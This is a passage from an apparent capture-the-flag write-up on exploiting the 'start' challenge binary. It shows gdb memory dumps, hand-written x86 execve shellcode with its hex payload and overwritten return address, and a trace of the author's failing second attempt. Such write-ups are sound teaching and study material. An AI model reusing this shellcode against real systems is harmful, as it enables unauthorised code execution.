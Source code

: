 ```
0xffffcfbc:	0xd2	0xd1	0xff	0xff	0xe7	0xd1	0xff	0xff
0xffffcfc4:	0xf2	0xd1	0xff	0xff	0x04	0xd2	0xff	0xff
0xffffcfcc:	0x1b	0xd2	0xff	0xff
(gdb) x/x 0x474e414c
0x474e414c:	Cannot access memory at address 0x474e414c
(gdb) 
```

I though perhaps `execve()` wants the the address of the word *"bash"* instead of the word itself, so I changed `ebx` to point towards the part of the stack that the word *"bash"* would be. 

##### Second attempt:

```
mov al, 0x0b
xor ecx, ecx
xor edx, edx
mov ebx, 0xffffcfac <- address of "bash"
int 0x80
...
0xffffcf94
0x68736162

Hex values are:
\xB0\x0B\x31\xC9\x31\xD2\xBB\xAC\xCF\xFF\xFF\xCD\x80\x61\x61\x61\x61\x61\x61\x61\x94\xcf\xff\xff\x68\x73\x61\x62
```

Unfortunately, the 2nd attempt still did not work. I do not know why, but I still got a segfault.
```
(gdb) run < exploit for start 
The program being debugged has been started already.
Start it from the beginning? (y or n) n
Program not restarted.
(gdb) run < exploit\ for\ start 
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/solomonbstoner/Desktop/start < exploit\ for\ start

Breakpoint 1, 0x08048060 in _start ()
=> 0x08048060 <_start+0>:	54	push   esp
(gdb) c
Continuing.
Let's start the CTF:
Breakpoint 3, 0x08048095 in _start ()
=> 0x08048095 <_start+53>:	b0 03	mov    al,0x3
(gdb) ni
0x08048097 in _start ()
=> 0x08048097 <_start+55>:	cd 80	int    0x80
(gdb) 
0x08048099 in _start ()
=> 0x08048099 <_start+57>:	83 c4 14	add    esp,0x14
(gdb) 
0x0804809c in _start ()
=> 0x0804809c <_start+60>:	c3	ret    
(gdb) 
0xffffcf94 in ?? ()
=> 0xffffcf94:	b0 0b	mov    al,0xb
(gdb) 
0xffffcf96 in ?? ()
=> 0xffffcf96:	31 c9	xor    ecx,ecx
(gdb) 
0xffffcf98 in ?? ()
=> 0xffffcf98:	31 d2	xor    edx,edx
(gdb) 
```